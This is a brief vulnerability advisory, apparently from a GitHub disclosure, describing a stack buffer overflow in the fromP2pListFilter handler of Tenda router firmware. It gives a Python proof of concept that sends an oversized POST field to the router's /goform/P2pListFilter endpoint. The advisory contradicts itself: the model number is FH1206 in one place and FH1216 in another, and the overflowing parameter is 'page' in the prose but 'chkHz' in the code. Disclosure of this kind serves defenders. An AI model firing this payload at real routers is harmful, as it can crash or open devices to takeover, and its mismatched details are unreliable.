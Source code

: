 

# fromP2pListFilter

## Overview

- Firmware download website: https://www.tendacn.com/hk/download/detail-2344.html

## Affected version

FH1206 V1.2.0.8(8155)_EN

## Vulnerability details

There is a stack buffer overflow vulnerability in Tenda FH1216 V1.2.0.8(8155)_EN, located in the **fromP2pListFilter** function. The function receives the `page` parameter from a POST request. `   sprintf(v11, "p2p.asp?page=%s", v8);` The statement will cause a buffer overflow. The `page` value provided by the user may exceed the capacity of the `v11` array, thereby triggering this security vulnerability.
![image](https://github.com/user-attachments/assets/12d5091e-8e60-4022-abde-f1d1f718f739)


## POC

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/P2pListFilter"
payload = b"a"*2000

data = {"chkHz": payload}
response = requests.post(url, data=data)
print(response.text)
```
![image](https://github.com/user-attachments/assets/1eccf7f2-38d2-45de-8ba9-cf4e9940563e)
